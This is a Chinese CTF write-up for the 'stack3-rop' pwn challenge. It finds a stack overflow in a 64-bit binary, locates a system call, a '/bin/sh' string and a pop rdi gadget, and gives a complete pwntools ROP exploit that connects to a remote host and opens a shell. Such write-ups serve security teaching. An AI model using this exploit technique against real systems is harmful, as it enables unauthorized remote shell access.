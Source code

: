 ```yaml
---
title: Lilac Pwn stack3-rop Writeup
date: 2020-11-01 14:10:46
tags:
- CTF刷题
- PWN
- ROP
- 栈溢出
categories: 竞赛
mathjax: true
---
```


[题目链接](http://pwn.hitctf.cn:8000/challenges)

<!-- more -->

![20201101095017](https://raw.githubusercontent.com/WuTao18/images/master/notes/2020/20201101095017.png)

文件类型是 64 位 ELF。

![20201101095122](https://raw.githubusercontent.com/WuTao18/images/master/notes/2020/20201101095122.png)

开了 NX 保护。

用 IDA64 查看一下：

![20201101100449](https://raw.githubusercontent.com/WuTao18/images/master/notes/2020/20201101100449.png)

可以看到可以栈溢出。

```shell
objdump -d stack3 | grep 'plt'
```

![20201101095523](https://raw.githubusercontent.com/WuTao18/images/master/notes/2020/20201101095523.png)

可以看到有 system 函数，地址为 `0x400600`。

```shell
ROPgadget --binary stack3 --string '/bin/sh'
```

![20201101095700](https://raw.githubusercontent.com/WuTao18/images/master/notes/2020/20201101095700.png)

可以看到有字符串 "/bin/sh"，地址为 `0x4008a4`。

由于是 64 位，参数先保存在 `RDI`，`RSI`，`RDX`，`RCX`，`R8`，`R9`，然后才是栈。

查看是否有可利用的 gadgets：

```shell
ROPgadget --binary stack3 --only 'pop|ret' | grep 'rdi'
```

![20201101100042](https://raw.githubusercontent.com/WuTao18/images/master/notes/2020/20201101100042.png)

找到一条。

那么可以构造 exp 了：

```python
from pwn import *

# p = process("./stack3")
p = remote("47.94.239.235", 2023)

poprdi_addr = 0x400883
system_addr = 0x400600
binsh_addr = 0x4008a4

payload = b'a' * (0x20 + 0x8) + p64(poprdi_addr) + p64(binsh_addr) + p64(system_addr)

p.sendline(payload)

p.interactive()
```

![20201101101355](https://raw.githubusercontent.com/WuTao18/images/master/notes/2020/20201101101355.png)

可以看到成功拿到 shell。